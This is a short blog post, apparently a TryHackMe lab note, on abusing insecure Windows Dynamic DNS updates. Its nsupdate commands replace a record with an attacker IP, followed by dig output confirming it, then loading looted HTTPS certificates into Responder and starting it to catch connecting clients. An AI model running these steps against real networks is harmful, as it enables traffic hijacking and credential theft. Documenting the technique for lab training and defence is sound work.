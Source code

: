 ```yaml
---
layout: post
title: Insecure Dynamic DNS Updates
description: Insecure Dynamic DNS Updates
summary: Insecure Dynamic DNS Updates
tags: [dns,windows,foothold]
minute: 1
---
```

## What is Dynamic DNS Updates?
* Improves management of DNS records
* For example, a new end device who receives an IP via DHCP can register itself by adding A record into the DNS
* More info: [How to configure DNS dynamic updates in Windows Server - Windows Server | Microsoft Docs](https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/configure-dns-dynamic-updates-windows-server-2003)

![](/spindel/assets/Insecure%20Dynamic%20DNS%20Updates/secure-dns.png)

## Vulnerability
An attacker can replace a record by its own IP which will force clients to connect to it.

## Steps
* Delete record and replace with attacker IP `10.11.40.33`

```bash
➜ nsupdate
> server 10.10.23.72
> update delete selfservice.windcorp.thm 
> send
> update add selfservice.windcorp.thm 1234 A 10.11.40.33
> send
> quit
```

* Verify A record points to attacker IP

```bash
➜  ra2 dig selfservice.windcorp.thm a @thm

; <<>> DiG 9.16.15-Debian <<>> selfservice.windcorp.thm a @thm
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 57355
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;selfservice.windcorp.thm.	IN	A

;; ANSWER SECTION:
selfservice.windcorp.thm. 1234	IN	A	10.11.40.33

;; Query time: 188 msec
;; SERVER: 10.10.23.72#53(10.10.23.72)
;; WHEN: Sat Sep 18 08:00:02 EDT 2021
;; MSG SIZE  rcvd: 69
```

* If you have HTTPS certificates looted from victim, put it in responder

```bash
sudo cp *pem /usr/share/responder/certs/
```

* Point responder config to the certs

```bash
➜  scans cat /etc/responder/Responder.conf| grep cert
SSLCert = certs/crt.pem
SSLKey = certs/key.pem
➜  scans 
```

* Fire up responder and wait for clients to connect to you

```bash
sudo responder -I tun0
```

